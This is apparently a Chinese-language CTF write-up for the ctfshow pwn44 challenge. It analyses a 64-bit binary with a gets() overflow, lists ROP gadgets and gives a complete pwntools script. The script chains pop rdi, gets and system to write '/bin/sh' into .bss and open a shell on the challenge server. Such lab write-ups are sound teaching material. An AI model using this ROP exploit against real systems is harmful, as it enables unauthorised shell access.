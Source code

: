 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn44
```

```
tasike@tasike-VM:~/Desktop$ file pwn44
pwn44: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=21ab50b60a15ea3e2b4ce46ee0a1f7135bb56f29, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn44
[*] '/home/tasike/Desktop/pwn44'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64bit，堆栈不可执行

`ida`查看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  logo();
  puts("get system parameter!");
  ctfshow();
  return 0;
}
```

跟进`ctfshow`

```c
__int64 ctfshow()
{
  char v1[10]; // [rsp+6h] [rbp-Ah] BYREF

  return gets(v1);
}
```

> `buf`与`rbp`距离`0xA`

发现`_system`

```c
// attributes: thunk
int system(const char *command)
{
  return system(command);
}
```

没有`/bin/sh`字符串

但是可以注意`bss段`有一个`buf2`

```
.bss:0000000000602080                               public buf2
.bss:0000000000602080 ??                            buf2 db    ? ;
.bss:0000000000602081 ??                            db    ? ;
.bss:0000000000602082 ??                            db    ? ;
```

查看`pop|ret`

```
tasike@tasike-VM:~/Desktop$ ROPgadget --binary pwn44 --only "pop|ret"
Gadgets information
============================================================
0x00000000004007ec : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007ee : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007f0 : pop r14 ; pop r15 ; ret
0x00000000004007f2 : pop r15 ; ret
0x00000000004007eb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007ef : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004005b8 : pop rbp ; ret
0x00000000004007f3 : pop rdi ; ret
0x00000000004007f1 : pop rsi ; pop r15 ; ret
0x00000000004007ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004fe : ret

Unique gadgets found: 11
```

和上一题思路一样，只不过这题是64位的



编写`attack44.py`

```python
from pwn import *
context(os = 'Linux', arch = 'amd64', log_level = 'debug')
r = remote('pwn.challenge.ctf.show', 28284)
poprdi = 0x4007f3
buf2 = 0x602080
gets = 0x400530
system = 0x400520
payload = cyclic(0xA + 0x8) + p64(poprdi) + p64(buf2) + p64(gets) + p64(poprdi) + p64(buf2) + p64(system)
r.sendline(payload)
r.sendline("/bin/sh")
r.interactive()
```

> 首先利用`pop_rdi`指令将`buf2`的地址加载到`rdi`寄存器中。调用`gets`函数，以`buf2`的地址作为参数，从用户输入中读取数据，并将其存储在`buf2`中。再次利用`pop_rdi`指令将`buf2`的地址加载到`rdi`寄存器中。调用`system`函数，以`buf2`的地址作为参数，执行指定的命令。